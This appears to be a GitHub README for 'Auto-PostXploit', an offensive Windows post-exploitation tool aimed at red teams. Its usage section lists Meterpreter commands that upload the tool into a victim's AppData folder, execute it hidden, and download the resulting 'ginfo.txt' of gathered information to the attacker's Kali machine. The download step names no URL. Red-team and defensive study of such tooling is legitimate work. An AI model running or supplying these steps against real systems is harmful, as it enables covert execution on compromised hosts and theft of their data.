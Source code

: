 # Auto-PostXploit
<b>Windows Auto Post Exploitation - For ReD Team</b>


* https://github.com/emilyanncr/Windows-Post-Exploitation/


## Download :

  #### wget 


## Usage :

  
  #### meterpreter > upload %path%/Auto-PostXploit.exe C:/Users/*USETNAME*/AppData
  
  #### meterpreter > execute -H -f C:/Users/%USERNAME%/AppData/Auto-PostXploit.exe
  
  [If Auto-PostXploit.exe Not In Process]
  
  #### meterpreter > download C:/Users/%USERNAME%/AppData/ginfo.txt /root/Desktop
  
  #### root@kali:~# cat /root/Desktop/ginfo.txt
